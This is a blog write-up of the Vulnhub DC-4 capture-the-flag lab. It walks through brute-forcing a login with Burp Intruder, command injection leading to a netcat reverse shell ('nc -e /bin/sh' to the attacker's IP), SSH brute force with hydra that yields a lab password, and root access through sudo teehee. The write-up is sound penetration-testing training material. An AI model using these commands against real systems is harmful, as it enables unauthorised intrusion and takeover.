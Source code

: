 ```yaml
---
"title": "Vulnhub - DC 4"
"date": 2019-11-18
"tags": ["easy", "hydra", "intruder"]
"keywords": ["easy", "hydra", "intruder"]
"categories": ["Vulnhub"]
"author": "Ghostbyt3"
"description": "We are going to pwn DC 4 by DCAU7 from Vulnhub"
"featured_image": "/img/dc4/1.1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc4/1.1.png)
We are going to pwn DC 4 by DCAU7 from Vulnhub


## Description
>DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
Unlike the previous DC releases, this one is designed primarily for  beginners/intermediates. There is only one flag, but technically,  multiple entry points and just like last time, no clues.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.


Download Link: [https://www.vulnhub.com/entry/dc-4,313/](https://www.vulnhub.com/entry/dc-4,313/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.8
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/26 19:35:19 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/26 19:35:20 Finished
===============================================================
```

![Untitled](/img/dc4/1.png)

It looks like login Page 
So i tried some normal sql injection but none worked so lets try bruteforce
We can use Burp Intruder for that

![Untitled](/img/dc4/2.png)

Attack type : Cluster Bomb

![Untitled](/img/dc4/3.png)

Now in payload , load wordlist and start attack!

![Untitled](/img/dc4/4.png)

This one gives different length it might be the password [br/](br/)
![Untitled](/img/dc4/5.png)

And yes I logged in.
After login I got a page Command.php[br/](br/)
![Untitled](/img/dc4/6.png)[br/](br/)
![Untitled](/img/dc4/7.png)

## Getting Shell

It looks like , it executes system commands.
So I intercept the command with burp and got a reverse shell.
![Untitled](/img/dc4/8.png)

> nc -e /bin/sh 10.0.2.18 1234 


![Untitled](/img/dc4/9.png)

We got a Shell!!

![Untitled](/img/dc4/10.png)

So while searching for anything usefull i found ``old-passwords.bak``

Since i found it in jim directory, lets bruteforce with ``jim``

## Getting User Jim

Lets start bruteforcing the ssh port using hydra

> hydra - a very fast network logon cracker which supports many different services

![Untitled](/img/dc4/11.png)

we found the password is ``jim:jibril04``

Found some users too

![Untitled](/img/dc4/12.png)

## Getting User Charles

While Checking jim directory there is ``mbox``

![Untitled](/img/dc4/13.png)

Since it looks like mail we check ``/var/mail``

![Untitled](/img/dc4/14.png)

It gives password for ``charles`` I su to charles

## Privilege Escalation

``sudo -l`` shows we can run ``teehee`` with root permission

![Untitled](/img/dc4/15.png)

It looks like we can overwrite any file so i created new user with root permission without password!

Got ROOT !!

``Flag``

![Untitled](/img/dc4/16.png)






